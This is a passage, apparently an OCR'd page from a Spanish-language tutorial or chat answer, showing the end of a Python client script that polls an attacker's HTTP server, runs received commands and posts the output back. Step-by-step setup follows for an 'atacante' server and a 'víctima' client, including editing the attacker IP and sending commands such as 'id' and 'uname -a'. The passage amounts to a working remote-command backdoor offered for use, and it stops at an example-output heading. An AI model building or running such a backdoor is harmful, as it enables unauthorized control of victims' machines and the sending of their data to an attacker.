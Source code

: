 ```python
        requests.post(server_url, data=resultado.encode())

    except Exception as e:
        print(f"[!] Error: {e}")

    time.sleep(5)
```

✅ Este script:

- Se conecta al servidor cada 5 segundos.
- Recibe un comando.
- Lo ejecuta.
- Devuelve el resultado al servidor.

---

### 🔧 Instalación y prueba paso a paso

#### En la máquina **atacante** (servidor)

1. Guarda `http_server.py`
2. Instala dependencias si no tienes:

   ```bash
   sudo apt install python3
   ```

3. Ejecuta:

   ```bash
   python3 http_server.py
   ```

4. Edita el script y cambia `comando_a_enviar` a comandos como `"ls"`, `"id"`, `"uname -a"`, etc.

---

#### En la máquina **víctima** (cliente)

1. Guarda `http_client.py`
2. Asegúrate de tener:

   ```bash
   pip3 install requests
   ```

3. Edita la IP del atacante en `server_url`
4. Ejecuta:

   ```bash
   python3 http_client.py
   ```

---

#### Ejemplo de resultado
